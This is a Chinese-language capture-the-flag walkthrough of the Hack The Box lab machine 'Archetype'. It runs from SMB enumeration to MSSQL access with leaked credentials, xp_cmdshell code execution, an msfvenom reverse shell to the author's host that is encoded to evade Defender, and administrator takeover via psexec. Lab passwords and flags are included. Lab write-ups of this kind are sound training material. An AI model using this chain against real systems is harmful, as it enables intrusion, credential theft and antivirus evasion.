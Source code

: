 # Archetype

## 掃 Port
- `rustscan -a 10.10.10.27 -r 1-65535`
	- ![](https://i.imgur.com/6PRRYI7.png)
- nmap 繼續掃
	- `nmap -A -p135,139,445,5985,47001,49664,49665,49666,49667,49669,49668 10.10.10.27`
		- ![](https://i.imgur.com/POqdmAS.png)
		- 一堆的 RPC
		- SMB
		- 1433 是 MSSQL
## SMB
- SMB 匿名登入
	- ![](https://i.imgur.com/Vg6LtQ4.png)
	- 發現 `backups`
- backups 資料夾
	- ![](https://i.imgur.com/0Dvwki0.png)
		- 一個 Config 載下來
	- ![](https://i.imgur.com/bnrHBxW.png)

- 取得密碼資訊
	- ![](https://i.imgur.com/fMJGZxe.png)
	- Host Name : `ARCHETYPE`
	- User ID : `sql_svc`
	- Password : `M3g4c0rp123`
## MSSQL
- 安裝 impacket
	- `sudo apt install python3-impacket`
- `impacket-mssqlclient -p 1433 sql_svc@10.10.10.27 -windows-auth`
	- ![](https://i.imgur.com/nGRTDxW.png)
- MSSQL 取得 Shell 就有機會可以 RCE
	- `exec xp_cmdshell '{指令}'`
- `systeminfo`
	- ![](https://i.imgur.com/WkKnCCm.png)
- `dir`
	- `exec xp_cmdshell 'dir'`
- 透過開啟本地 smb
	- `impacket-smbserver meow .`
- 準備 Reverse shell
	- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.16 LPORT=7877 -e x86/shikata_ga_nai -f exe > shell.exe`
		- 經測試，不掛 `x86/shikata_ga_nai` 就會被 Defender 吃掉 
## Shell
- 執行 Shell
	- `exec xp_cmdshell '\\10.10.16.16\meow\shell.exe'`
	- ![](https://i.imgur.com/RpWsOBY.png)
- 收回 Reverse shell
	- ![](https://i.imgur.com/AMKdllY.png)
- 取得 User Flag
	- ![](https://i.imgur.com/8yVWCex.png)
	- `3e7b102e78218e935bf3f4951fec21a3`

## 嘗試提權
- Windows exploit suggester
	- `windows-exploit-suggester.py`
		- 壞ㄌ QQ 不支援 2019 
- WESNG
	- https://github.com/bitsadmin/wesng
	- 找不到洞 QQ
- `whoami /priv`
	- ![](https://i.imgur.com/aX6ZMTx.png)
	- 發現有 SeImpersonatePrivilege 
- SeImpersonatePrivilege  提權嘗試
	- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens
	- https://github.com/itm4n/PrintSpoofer
	- 失敗 QQ


- Powershell history
	- `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` 
- Get Username and password
	- ![](https://i.imgur.com/AguSfHx.png)
	- Username : `administrator`
	- Password : `MEGACORP_4dm1n!!`
- Use psexec to get shell
	`impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27`
	- ![](https://i.imgur.com/t0a0s6i.png)
- Get root flag
	- ![](https://i.imgur.com/GWao8PG.png)
	- `b91ccec3305e98240082d4474b848528`

